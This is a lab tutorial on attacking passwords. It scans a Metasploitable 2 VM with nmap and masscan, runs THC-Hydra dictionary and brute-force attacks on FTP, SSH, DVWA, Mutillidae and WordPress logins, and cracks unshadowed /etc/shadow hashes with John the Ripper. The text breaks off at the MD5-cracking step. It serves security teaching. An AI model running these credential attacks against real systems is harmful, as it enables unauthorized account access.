


# Attacks on Password-based Systems  <!-- omit in toc -->

## Table of Contents  <!-- omit in toc -->

- [Introduction](#introduction)
- [Understanding Passwords](#understanding-passwords)
  - [Check your passwords](#check-your-passwords)
  - [Massive list of passwords](#massive-list-of-passwords)
  - [Checking for password robustness](#checking-for-password-robustness)
- [Attacks on Passwords](#attacks-on-passwords)
  - [Looking for password-based services](#looking-for-password-based-services)
  - [Using THC-Hydra](#using-thc-hydra)
  - [Attacking FTP service with THC-Hydra](#attacking-ftp-service-with-thc-hydra)
  - [Attacking SSH service with THC-Hydra](#attacking-ssh-service-with-thc-hydra)
  - [Attacking a Web application with THC-Hydra](#attacking-a-web-application-with-thc-hydra)
    - [DVWA - Damn Vulnerable Web Application](#dvwa---damn-vulnerable-web-application)
    - [OWASP Mutillidae](#owasp-mutillidae)
    - [Wordpress](#wordpress)
  - [Using THC-Hydra for brute-force attacks](#using-thc-hydra-for-brute-force-attacks)
- [John the Ripper (JtR)](#john-the-ripper-jtr)
  - [Using JtR to crack passwords on a Linux system](#using-jtr-to-crack-passwords-on-a-linux-system)
    - [Using a brute-force approach](#using-a-brute-force-approach)
    - [Using a dictionary approach](#using-a-dictionary-approach)
  - [Cracking MD5 password files](#cracking-md5-password-files)
  - [Cracking password protected files](#cracking-password-protected-files)
- [Hashcat](#hashcat)
  - [Using Hashcat to do a brute-force attack](#using-hashcat-to-do-a-brute-force-attack)
- [References/Additional information](#referencesadditional-information)

## Introduction

This is lab where you can test some content related with the usage of passwords. You'll find some examples where you can test if your password is compromised, or how robust are your passwords.

In order to use this lab, it is recommended to use:

- a web browser
- [Kali Linux](https://www.kali.org/), with some tools installed
- [Metasploitable 2](https://sourceforge.net/projects/metasploitable/) VM (used as a target).

## Understanding Passwords

This part is useful for checking the security of passwords and to understand its robustness.

### Check your passwords

There have been some data leakages on the Internet that contain a massive amount of accounts, with the passwords of millions and millions of users. [Troy Hunt](https://www.troyhunt.com/), a security researcher, as created a web site called "[have I been pwned](https://haveibeenpwned.com/)" that allows any user to look for an email address or telephone number, that might be part of an existing data leak.

Using this web site try to look for the following:

- Look to see if some of your accounts have been compromised (also look at the details of those accounts);
- Look at the amazing [list of Pwned web sites](https://haveibeenpwned.com/PwnedWebsites). Found anything [interesting](https://haveibeenpwned.com/PwnedWebsites#TAPAirPortugal)?
- Look for information online about the most recent Facebook data breach (2021).

### Massive list of passwords

There are multiple sites that aggregate lots of passwords. These passwords can be used to conduct dictionary attacks, that test all the existing passwords to check if some of them works.

One of the most well know data breach that involved non-encrypted user accounts was the [Rockyou](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/?guccounter=1) social application site, mainly developing widgets for Facebook. Rockyou sufered [a data breach](https://en.wikipedia.org/wiki/RockYou) that resulted in the exposure of 32 million user accounts.

- [Common Password List ( rockyou.txt )](https://www.kaggle.com/datasets/wjburns/common-password-list-rockyoutxt)
- [Direct download](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt 
) of the Rockyou passwords
- [Seclists](https://github.com/danielmiessler/SecLists)

### Checking for password robustness

One of the most important measures in terms of security for a password is its robustness. One way to determine the password robustness is through the measure of the [password entropy](https://www.okta.com/identity-101/password-entropy/). Password entropy predicts how difficult a given password would be to crack through guessing, brute force or dictionary attacks or other common methods. Entropy is measured in bits.

Just for checking the entropy of the passwords lets do the following:

1. Visit the web site of GeneratePasswords and look and the [password entropy calculation calculation formula](https://generatepasswords.org/how-to-calculate-entropy/);
2. Also look at [why the password strength meters are not that great](https://generatepasswords.org/why-password-strength-meters-are-not-so-great-after-all/) (those you find on most websites);
3. Check the entropy of the different types of passwords using a [password strength calculator](http://www.bee-man.us/computer/password_strength.html);
4. Check on [EFF Dice-Generate Passphrases](https://www.eff.org/dice). Look at the [wordlist dictionary](https://www.eff.org/files/2016/07/18/eff_large_wordlist.txt). Try the proposed process to create a great passphrase;
5. Also look at the [Diceware Passphrase web site](https://theworld.com/~reinhold/diceware.html);
6. Finally try to create a passwords/passphrases and [check its strength](https://bitwarden.com/password-strength/).

## Attacks on Passwords

There are two generic ways to attack passwords: either through a **dictionary attack** or a **brute-force attack**. There are other techniques, but these are the most common ones.

Let us simulate a situation in which we have an attacker that is going to try to exploit a victim. For the attacker, [Kali Linux](https://www.kali.org/) will be used. For the victim, we will use the [Metasploitable 2](https://sourceforge.net/projects/metasploitable/).

Lets assume that the victim has the following email address: **192.168.8.148**.

### Looking for password-based services 

Next we are going to analyze the system either using "`nmap`" or "`massscan`". Let's use `nmap` first:

    nmap 192.168.8.142

And obtain the following results:

    Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-04 23:56 WET
    Nmap scan report for 192.168.8.142
    Host is up (0.0046s latency).
    Not shown: 977 closed tcp ports (conn-refused)
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    23/tcp   open  telnet
    25/tcp   open  smtp
    53/tcp   open  domain
    80/tcp   open  http
    111/tcp  open  rpcbind
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    512/tcp  open  exec
    513/tcp  open  login
    514/tcp  open  shell
    1099/tcp open  rmiregistry
    1524/tcp open  ingreslock
    2049/tcp open  nfs
    2121/tcp open  ccproxy-ftp
    3306/tcp open  mysql
    5432/tcp open  postgresql
    5900/tcp open  vnc
    6000/tcp open  X11
    6667/tcp open  irc
    8009/tcp open  ajp13
    8180/tcp open  unknown

    Nmap done: 1 IP address (1 host up) scanned in 0.36 seconds

And now let's use the `massscan` tool (it requires it to run as `sudo`):

    sudo masscan 192.168.8.142 --top-ports

Resulting in:

    Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-11-05 00:00:46 GMT
    Initiating SYN Stealth Scan
    Scanning 1 hosts [1000 ports/host]
    Discovered open port 21/tcp on 192.168.8.142                                   
    Discovered open port 1524/tcp on 192.168.8.142                                 
    Discovered open port 80/tcp on 192.168.8.142                                   
    Discovered open port 1099/tcp on 192.168.8.142                                 
    Discovered open port 8180/tcp on 192.168.8.142                                 
    Discovered open port 111/tcp on 192.168.8.142                                  
    Discovered open port 22/tcp on 192.168.8.142                                   
    Discovered open port 8009/tcp on 192.168.8.142                                 
    Discovered open port 5900/tcp on 192.168.8.142                                 
    Discovered open port 2049/tcp on 192.168.8.142                                 
    Discovered open port 53/tcp on 192.168.8.142                                   
    Discovered open port 139/tcp on 192.168.8.142                                  
    Discovered open port 514/tcp on 192.168.8.142                                  
    Discovered open port 6667/tcp on 192.168.8.142                                 
    Discovered open port 6000/tcp on 192.168.8.142                                 
    Discovered open port 512/tcp on 192.168.8.142                                  
    Discovered open port 25/tcp on 192.168.8.142                                   
    Discovered open port 5432/tcp on 192.168.8.142                                 
    Discovered open port 2121/tcp on 192.168.8.142                                 
    Discovered open port 513/tcp on 192.168.8.142                                  
    Discovered open port 445/tcp on 192.168.8.142                                  
    Discovered open port 3306/tcp on 192.168.8.142                                 
    Discovered open port 23/tcp on 192.168.8.142 

So it was possible to conclude that there are plenty of services open on the machine. To this point we can understand the exposition degree of the victim. It is possible to understand there are services such as **ftp**, **ssh**, and **http** which are running on the machine.

### Using THC-Hydra

[THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) is a tool that was developed for security researchers to help testing the robustness of password-based systems. Hydra is a tool to guess/crack valid login/password pairs.

This tool has multiple options. You should look at the help of the function to learn about its functionalities. 

    hydra -h

Which produces the following result. This is simply a part of the output that this command presents.

    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Hydra supports a large set of protocols and services, such as:

- POP3
- FTP
- HTTP-GET, HTTP-POST-FORM, HTTP-GET-FORM
- Firebird
- Subversion
- Telnet
- Postgres
- SSH
- Teamspeak
- MySQL
- rexec
- SOCKS5
- SNMP
- NNTP
- ... more.

THC-Hydra can handle the following types os attacks:
- Brute force attacks
- Dictionary attacks
- Parallel attacks (16 threads by default, -t option)
- Check for null, login as password, reversed characters (-e option)
- Attack several different servers

There are also some graphical tools for THC-Hydra, such as `xhydra`. You may install and launch this tool by doing:

    xhydra

### Attacking FTP service with THC-Hydra

In the example, we are going to launch a **dictionary attack** against the FCP service of the victim. In order to do this we need to use a word list file (the dictionary) that contain the words to be used as passwords.

We may create that file, or we may use some file downloaded from the Internet (please refer to the first part of this document) or we may also use some of the word list files that are part of Kali Linux. You may find such files on the `/usr/share/wordlists` folder.

It is important to notice that, the bigger the file, the longer will be the processing time of such file.

For demonstration purposes, let's create two files. The first one will be called `users.txt` and will contain a list of possible users:

    root
    admin
    test
    guest
    info
    adm
    mysql
    user
    administrator
    oracle
    ftp
    pi
    puppet
    ansible
    ec2-user
    vagrant
    azureuser

And we will also create a file called `passwords.txt` which will contain the list of most common passwords in 2022:

    123456
    123456789
    qwerty
    password
    12345
    qwerty123
    1q2w3e
    12345678
    111111
    1234567890

If you don't want to create these files, I've created them for you. You can **download here** the [list of users](files/users.txt) and the [list of passwords](files/passwords.txt).

Now, we can start the THC-Hydra to test the FCP service and check if some of the users and passwords match some existing user on the FTP service.

    hydra -v -V -L users.txt -P passwords.txt 192.168.8.142 ftp

`-L` is used to specify the file that contain the usernames, in this case `users.txt`

`-P` is used to specify the file that contain the passwords, in this case `passwords.txt`

`-v` activates the verbose mode

`-V` displays each attempt with a username/password pair

You'll get a similar output to this one:

    ...
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "123456" - 1 of 187 [child 0] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "123456789" - 2 of 187 [child 1] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "qwerty" - 3 of 187 [child 2] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "password" - 4 of 187 [child 3] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "12345" - 5 of 187 [child 4] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "qwerty123" - 6 of 187 [child 5] (0/0)
    ...

After running the tool, try to **interpret its results** and **check if you were able to find** some valid username/password pair.

You may also run THC-Hydra to just try to do a dictionary attack against a specific username. In this case you have to specify the username and simply use the `passwords.txt` file. The command is similar:

    hydra -v -V -l msfadmin -P passwords.txt 192.168.8.142 ftp

Which results in:

    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-05 16:26:08
    [DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:1/p:12), ~1 try per task
    [DATA] attacking ftp://192.168.8.142:21/
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "123456" - 1 of 12 [child 0] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "123456789" - 2 of 12 [child 1] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "qwerty" - 3 of 12 [child 2] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "password" - 4 of 12 [child 3] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "12345" - 5 of 12 [child 4] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "qwerty123" - 6 of 12 [child 5] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "1q2w3e" - 7 of 12 [child 6] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "12345678" - 8 of 12 [child 7] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "msfadmin" - 9 of 12 [child 8] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "111111" - 10 of 12 [child 9] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "1234567890" - 11 of 12 [child 10] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "" - 12 of 12 [child 11] (0/0)
    [21][ftp] host: 192.168.8.142   login: msfadmin   password: msfadmin
    [STATUS] attack finished for 192.168.8.142 (waiting for children to complete tests)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-05 16:26:13

### Attacking SSH service with THC-Hydra

In this case, we are going to launch a dictionary attack against the SSH service on the victim. The approach is similar to the one presented before, the only difference is just to chance the service name:

    hydra -v -V -L users.txt -P passwords.txt 192.168.8.142 ssh

Note: this will only work if the SSH service accepts password-based authentication.

### Attacking a Web application with THC-Hydra

In here we are going to use dictionary attacks against web applications.

#### DVWA - Damn Vulnerable Web Application

In order to do this, we will use a vulnerable web application called [DVWA](https://github.com/digininja/DVWA). You'll find more information about how to install [DVWA](../appsecurity/dvwa.md) in this section.

For this sake, we'll assume that you already have DVWA installed and that it can be used.

First, lets navigate login page of the application and we will try to use a dictionary attack to crack the authentication web page of the application.

    http://192.168.8.142/dvwa/login.php

In order to find how to conduct the attack, we need to inspect the web page to understand how we could use THC-Hydra to launch the attack.

After looking at the page we learn that is necessary to send the following parameters, through the POST method:

`username`: this is the name of the user

`password`: this is the password of the user

`Login`: a variable that always contains the value "Login"

We also need to understand what fails in the case of a bad authentication. In this case we notice that the application presents the message "**Login Failed**". This is important for THC-Hydra to distinguish a successful from unsuccessful login attempts.

So in order to conduct this attack, we need to do:

    hydra -L users.txt -P passwords.txt -I -e ns -F -u -t 1 -w 10 -v -V 192.168.8.142 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"

Some of the parameters are already known, but lets look at some others:

`-I`: ignore an existing restore file - basically it always starts over.

`-e ns`: try "n" null password, "s" login as pass and/or "r" reversed login. In this case, we are going to test for null passwords and also use the username as password as well.

`-F`: exit when a login/pass pair is found. This will immediately stop the search for more passwords, when one is found. This is not a good idea if you are planning on trying to identify/find all the possible passwords.

`-u`: loop around users, not passwords

`-t 1`: run TASKS number of connects in parallel per target. In this case we are just using a single task.

`-w 10`: wait time for a response. This indicates that THC-Hydra will wait for 10 seconds before giving a timeout.

After this we should look at the output of the THC-Hydra tool:

    ...
    [ATTEMPT] target 192.168.8.142 - login "azureuser" - pass "qwerty" - 90 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://192.168.8.142:80/dvwa/login.php
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "password" - 91 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://192.168.8.142:80/dvwa/login.php
    [ATTEMPT] target 192.168.8.142 - login "admin" - pass "password" - 92 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://192.168.8.142:80/dvwa/index.php
    [80][http-post-form] host: 192.168.8.142   login: admin   password: password
    [STATUS] attack finished for 192.168.8.142 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-07 01:28:28

You may find more details by using the following command to get more usage options for a given module:

    hydra -U http-get-form

#### OWASP Mutillidae

Now we are going to try with a different web application. Metasploitable 2 also packs another vulnerable web application called [Mutillidae](https://github.com/webpwnized/mutillidae).

This Mutillidae is also a vulnerable web application that was developed in PHP that might also be used for demonstration of multiple web application security problems. However, in this case, we might use it also for demonstrating attacks against passwords.

After having Mutillidae up and running, we may try to attack it using also THC-Hydra. Again, and similarly to what happened before, we need to study our target before launching the proper attack. So lets look at the URL we want to target and that contains the authentication form:

    http://127.0.0.1/index.php?page=login.php

So, this page has a form that expects a set of parameters to be send through the POST method. These values are:

`username`: this is the name of the user

`password`: this is the password of the user

`Login`: a variable called `login-php-submit-button` that always contains the value "Login"

We also need to understand what fails in the case of a bad authentication. In this case we notice that the application presents the message "**Password Incorrect**". This is important for THC-Hydra to distinguish a successful from unsuccessful login attempts.

So in order to conduct this attack, we need to do:

    hydra -L users.txt -P passwords.txt -I -e ns -F -u -t 1 -w 10 -v -V 127.0.0.1 http-post-form "/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Password Incorrect"

The parameters are the same that were used before. The results are:

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-07 17:52:25
    [WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 1 task per 1 server, overall 1 task, 252 login tries (l:18/p:14), ~252 tries per task
    [DATA] attacking http-post-form://127.0.0.1:80/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Password Incorrect
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "root" - 1 of 252 [child 0] (0/0)
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "admin" - 2 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://127.0.0.1:80/index.php?popUpNotificationCode=AU1
    [80][http-post-form] host: 127.0.0.1   login: admin   password: admin
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-07 17:52:26

#### Wordpress

Next we will try to use THC-Hydra to attack a well-known CMS system, that is used too host multiple web sites - [Wordpress](https://wordpress.org/). For this, we need to install or use an already existing Wordpress instance.

One possible option is to install Wordpress using [Docker](https://www.docker.com/). There is a nice guide that [explains how to install Wordpress on Docker](https://www.hostinger.com/tutorials/run-docker-wordpress). Another alternative is to install Wordpress in a virtual machine - either VirtualBox or VMware. A great place to obtain and download such virtual machines is on [Bitnami](https://bitnami.com/) - you may find the direct [download of Wordpress VM here](https://bitnami.com/stack/wordpress/virtual-machine).

Depending on how install the Wordpress, you have access to this address for users to login (remember that the address might change):

    http://127.0.0.1:8000/wp-login.php

As always, we need to analyze the website to learn which are the parameters that are required by the form to operate. After this analysis we find that the form requires the following parameters to be used - via POST:

`log`: this contains the username of the user

`pwd`: this contains the password of the user

`wp-submit`: the button to submit the request, that should receive the value `Log In`

`testcookie`: an hidden value that is required to be passed during the login process and that has the value `1`

`redirect_to`: an hidden value that shows where the page will redirect upon a successful login, in this case has the value `http://localhost:8000/wp-admin/`

We need to understand also what happens when the authentication is successful. In this case it will happen a redirect on the page. So we can test in the case of success (`S`) and having the location changed (`Location`). 

So lets run THC-Hydra:

    hydra -L users.txt -P passwords.txt -I -e ns -F -u -t 1 -w 10 -v -V -s 8000 127.0.0.1 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to=XPTO:S=Location"

In this case, we have a new option that is going to the be used:

`-s 8000`: This option is used to specify the port in which the web application is running. In this case the web application runs on port `8000`

If everything goes well, we will obtain a result:

    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-07 19:22:28
    [WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 1 task per 1 server, overall 1 task, 252 login tries (l:18/p:14), ~252 tries per task
    [DATA] attacking http-post-form://127.0.0.1:8000/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to=XPTO:S=Location
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "root" - 1 of 252 [child 0] (0/0)
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "admin" - 2 of 252 [child 0] (0/0)
    [8000][http-post-form] host: 127.0.0.1   login: admin   password: admin
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-07 19:22:30

### Using THC-Hydra for brute-force attacks

All the attacks we have been performing are dictionary attacks. This requires the existence of a good word list that allows someone to find the password, if a word in the list was used as a password. This might not be always the case. So we might need to use a **brute-force attack** to test every possible combination as a password.

In order to use this, we need to use the option `-x` that allows the generation of passwords according to a given mask. You may use the following command to obtain more options about this functionality:

    hydra -x -h

That displays this help:

    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra bruteforce password generation option usage:

    -x MIN:MAX:CHARSET

        MIN     is the minimum number of characters in the password
        MAX     is the maximum number of characters in the password
        CHARSET is a specification of the characters to use in the generation
                valid CHARSET values are: 'a' for lowercase letters,
                'A' for uppercase letters, '1' for numbers, and for all others,
                just add their real representation.
    -y         disable the use of the above letters as placeholders
    Examples:
    -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
    -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
    -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
    -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-
    -x 3:5:aA1 -y generate passwords from length 3 to 5 with a, A and 1 only

    The bruteforce mode was made by Jan Dlabal, http://houbysoft.com/bfg/

So if we want to brute-force a service with only passwords that are numbers, we can do the following (in this case we are going to use only numbers from 0-999999):

    hydra -v -V -l msfadmin -x 1:6:1 192.168.8.142 ftp

We can try passwords that are only lower case letters, with 5 characters in length:

    hydra -v -V -l msfadmin -x 5:5:a 192.168.8.142 ftp

Or we can use multiple combinations, such as using lower and upper case letters, and also numbers:

    hydra -v -V -l msfadmin -x 5:5:aA1 192.168.8.142 ftp

This results in **916132832** possible combinations. :-)

## John the Ripper (JtR)

[John the Ripper](https://github.com/openwall/john) (JtR) is [another tool](https://www.kali.org/tools/john/) that can be used to attack password-based systems.

It is a tool best suited to crack a large number of passwords (based on different algorithms), using dictionary attacks and brute-force (offline attacks). In order to understand the options that this tool offers you should use following command and analyze them in detail:

    john --help

JtR is essentially used for attacks on **offline** files that contain some type of passwords. Imagine a scenario where you obtain a file with a set of passwords (which are protected in some way) and you want to find out (crack) the original passwords - this is a task for JtR.

This tool can take advantage of extra hardware in the machine, such as GPUs, to speed up the password discovery process.

### Using JtR to crack passwords on a Linux system

In this case, let us try to find out the passwords of users on a Linux system. The first we need to do (for demo purposes) is to get the passwords and save them to a file (we can do this on the Kali Linux system):

    sudo unshadow /etc/passwd /etc/shadow > allpasswords

This will save the passwords in a file (`allpasswords`). Lets open the file and check its content (if you can't get the file, [download it from here](files/allpasswords)).

    cat allpasswords

Format:

    user:$y$j9T$S1FDA0LVtwxjLBDnNm0NZ0$s5oO9av92JIXitmfoLWKh.mBj4gMkqUwCygc94OvgU/:1000:1000:User One,,,:/home/user:/usr/bin/zsh

The passwords on a Linux system are usually encrypted using an algorithm called [crypt](https://linux.die.net/man/3/crypt). Therefore this information is **important** for the JtR tool.

#### Using a brute-force approach

To do a brute-force attack we can simply do:

    john --format=crypt allpasswords

`--format` indicates the format of the passwords on the file (`allpasswords`)

As you may notice, this will take a **looooong time**! Look at the CPU consumption and check the ETA...

    Using default input encoding: UTF-8
    Loaded 1 password hash (crypt, generic crypt(3) [?/64])
    Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
    Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:09 19.19% 1/3 (ETA: 11:16:13) 0g/s 100.8p/s 100.8c/s 100.8C/s Useronel..Uusery
    0g 0:00:00:23 38.12% 1/3 (ETA: 11:16:26) 0g/s 98.67p/s 98.67c/s 98.67C/s Muser..SUser
    0g 0:00:01:07 85.71% 1/3 (ETA: 11:16:45) 0g/s 92.22p/s 92.22c/s 92.22C/s Ouser11111..oneuser111111
    0g 0:00:01:14 94.22% 1/3 (ETA: 11:16:44) 0g/s 92.82p/s 92.82c/s 92.82C/s ouser2023..oneuser1964
    Session aborted

#### Using a dictionary approach

In order to save time, we may try to use a dictionary attack instead. In order to do that we need to do the following, using a dictionary (`passwords.txt`):

    john --format=crypt --wordlist=passwords.txt allpasswords

If the word list contains a password we obtain a result really fast.

    Using default input encoding: UTF-8
    Loaded 1 password hash (crypt, generic crypt(3) [?/64])
    Cost 1 (algorithm [1:descrypt 2:md5crypt 3:sunmd5 4:bcrypt 5:sha256crypt 6:sha512crypt]) is 0 for all loaded hashes
    Cost 2 (algorithm specific iterations) is 1 for all loaded hashes
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Warning: Only 8 candidates left, minimum 96 needed for performance.
    password         (user)     
    1g 0:00:00:00 DONE (2022-11-08 11:22) 7.692g/s 61.53p/s 61.53c/s 61.53C/s 123456
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.

Note: if nothing is refered, the discovered passwords are stored in the `~/.john/john.pot` file. If we like to specify any other pot location, we need to use the `--pot` option.

### Cracking MD5 password files

Now we are going to use larger dimension files, to explore JtR funcionalities. First we are going to download the Rockyou password file (`rockyou.txt`). We can [download](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) this file from [here](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt).

After this, we are going to download some files from the "[Crack Me If You Can (DEFCON 2012)](https://contest-2012.korelogic.com/)" page.

We this page we can [download this file](http://contest-2012.korelogic.com/cmiyc_2012_password_hash_files.tar.bz2).

Uncompress the file:

    tar -xf cmiyc_2012_password_hash_files.tar.bz2

From all the files that are extracted, we are going to use this one:

    hashes-9.raw-md5.txt
